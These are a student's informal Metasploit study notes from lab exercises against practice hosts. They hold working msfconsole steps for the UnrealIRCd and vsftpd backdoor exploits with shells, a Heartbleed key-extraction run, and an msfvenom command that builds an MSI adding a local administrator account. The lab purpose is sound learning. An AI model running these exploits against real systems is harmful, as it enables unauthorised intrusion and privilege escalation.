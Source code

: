 # Metasploit

metasploit can be used to: 
- create trojan horses
- run attacks

Links
- https://docs.metasploit.com
- https://www.youtube.com/watch?v=oBAC5UfalC8
- https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
- https://www.hackingarticles.in/comprehensive-guide-on-metasploitable-2/


### Example attack: Remote shell via IRC vulnerability 
From the Nessus scan i know that iloveshells.vm.vuln.land has a critical vulnerability that allows remote shell execution via IRC. To exploit this, i did the following. 
- `msfconsole` start it from console (now we can enter specific commands)
- `search irc` -> will show exploits (because the got "exploits" in their path/name) 
    - found unrealRDC 
- `use exploit/unix/irc/unreal_ircd_3281_backdoor` 
- `set RHOSTS iloveshells.vm.vuln.land` 
- `set payload payload/cmd/unix/bind_perl`
- `exploit`

 works :-)  we got our shell and can now run bash commands. Maybe it is because I don't know linux bash not very well (or metasploit, shell etc.) but I cannot really navigate in the folder. "cd .." doesn't seem to work to explore the file system. However, i can still do it via `ls / -al` to see the root dir and from there I coud use cat or pipes etc. to explore the system. 

(taken from exercise Gaining access 2 )

### Example attack on FTP vulnerability (see video)

- `msfconsole` start it from console (now we can enter specific commands)
- `search exploits` -> will show exploits (because the got "exploits" in their path/name) 
- `search vsftp`  -> search for exploit that has "vsftp" in its path/name
- `use exploit/unix/ftp/vsftpd_234_backdoor` use/run specific exploit (full path) > command promt will change (now can enter commands for that particular exploit)
    - `options` -> exists for every exploit
    - `set RHOSTS iloveshells.vm.vuln.land`  to set server to be attacked for the vsftpd exploit
        - you can run options again to see if it appears in options now
    - `show payloads` -> will show payloads that are available for this server (if there is only one it will automatically choose the only one available)$
    - `exploit` -> run/start acutal exploit (if there is only one exploit there we can leave out the payload)
        - with this exploit (vsftpd) a shell is now open (other exploits will provide different feedback) and we can now run commands on this shell which are executed on iloveshells.vm.vuln.land

(taken from video: https://www.youtube.com/watch?v=oBAC5UfalC8   )

### Exploit Heartbleed bug
1. start metasploit resource (exercise 2) and log in
2. Execute the commands
    - `msfconsole` > start metasploit
    - `use auxiliary/scanner/ssl/openssl_heartbleed` 
    - `set action KEYS`
    - `set RHOST heartbleed.vm.vuln.land` 
    - `set MAX_KEYTRIES 255` (as explained.. above 250 makes no sense)
    - `exploit`

Success: attack succeded. Private key starts with "MIICW"  (see screenshot)

### Create an msi which creates an local admin user (via )
If AlwaysInstallElevated is true (1), installer runs as elevated and it can be used to create local admins via msfvenom (`msfvenom -h`) a payload generator that is bundled with Metasploit. 

`msfvenom -p windows/x64/exec CMD='cmd.exe /k "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"' -f msi > useradd.msi`
    - will create a msi file "useradd.msi" that runs the following code: "net user /add hacker Hacker@Work && net localgroup administrators hacker /add"$
        - new user "hacker" with password "Hacker@Work" which is local admin 
    - file will have to be copied to a windows machine (via any means: fileshare, web attachment, gosh, etc.)
    - When we download an run msi on windows, we might have to click away warnings.

### Further examples
- Postgres -> see solutions "Gaining Access/Metasploitable MV"
- Brute-force / Login SSH -> see solutions "Gaining Access/Metasploitable MV"
- Java RMI -> see solutions "Gaining Access/Metasploitable MV"


### Varia/Leftovers

- Heartbleed bug: There is another tool "Heartleech" to exploit the heartbleed vulnerabilitiy, which should be more reliable. However, I only succeded with metasploit
- check lab task "Gaining Access/Metasploitable MV"
- To find vulnerabilities we could use: 
    - Nessus (more advanced)
    - NMAP: `nmap -p -sV iloveshells.vm.vuln.land`(would show open ports + versions)
